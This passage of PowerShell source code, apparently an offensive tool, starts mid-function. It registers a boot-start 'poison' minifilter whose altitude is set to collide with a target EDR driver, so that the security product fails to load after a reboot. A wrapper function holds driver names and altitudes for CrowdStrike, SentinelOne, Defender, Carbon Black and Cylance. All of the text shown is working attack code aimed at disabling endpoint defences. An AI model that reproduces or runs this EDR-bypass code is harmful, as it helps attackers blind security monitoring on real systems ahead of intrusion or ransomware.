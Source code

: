 ```powershell
            New-ItemProperty -Path $poisonServicePath -Name "Start" -Value 0 -PropertyType DWord -Force | Out-Null # Boot start
            New-ItemProperty -Path $poisonServicePath -Name "ErrorControl" -Value 1 -PropertyType DWord -Force | Out-Null
            New-ItemProperty -Path $poisonServicePath -Name "Group" -Value "FSFilter Anti-Virus" -PropertyType String -Force | Out-Null
        }

        # Create instance with stolen altitude
        if (-not (Test-Path $poisonInstancePath)) {
            New-Item -Path "$poisonServicePath\Instances" -Force | Out-Null
            New-Item -Path $poisonInstancePath -Force | Out-Null
        }

        # Set altitude to collide with target EDR (use Set-ItemProperty to overwrite if exists)
        Set-ItemProperty -Path $poisonInstancePath -Name "Altitude" -Value $TargetAltitude -Type String -Force -ErrorAction SilentlyContinue
        if (-not $?) {
            New-ItemProperty -Path $poisonInstancePath -Name "Altitude" -Value $TargetAltitude -PropertyType String -Force | Out-Null
        }

        Set-ItemProperty -Path $poisonInstancePath -Name "Flags" -Value 0 -Type DWord -Force -ErrorAction SilentlyContinue
        if (-not $?) {
            New-ItemProperty -Path $poisonInstancePath -Name "Flags" -Value 0 -PropertyType DWord -Force | Out-Null
        }

        Write-Host "[+] Poison filter registered at altitude $TargetAltitude"
        Write-Host "[+] $TargetEDRDriver will fail to initialize on next boot"
        Write-Host "[!] Reboot required for changes to take effect"

        return $true
    }
    catch {
        Write-Error "Failed to poison altitude: $_"
        return $false
    }
}

# Example usage for common EDRs
function Invoke-EDRAltitudeBypass {
    param(
        [ValidateSet("CrowdStrike", "SentinelOne", "Defender", "CarbonBlack", "Cylance")]
        [string]$EDRProduct
    )

    $edrAltitudes = @{
        "CrowdStrike" = @{Driver="CrowdStrike"; Altitude="385200"}
        "SentinelOne" = @{Driver="SentinelMonitor"; Altitude="328010"}
        "Defender" = @{Driver="WdFilter"; Altitude="328010"}
        "CarbonBlack" = @{Driver="carbonblackk"; Altitude="370100"}
        "Cylance" = @{Driver="CyProtectDrv"; Altitude="328300"}
    }

    if ($edrAltitudes.ContainsKey($EDRProduct)) {
        $config = $edrAltitudes[$EDRProduct]
        Invoke-MiniFilterAltitudePoison -TargetEDRDriver $config.Driver -TargetAltitude $config.Altitude
    }
}

```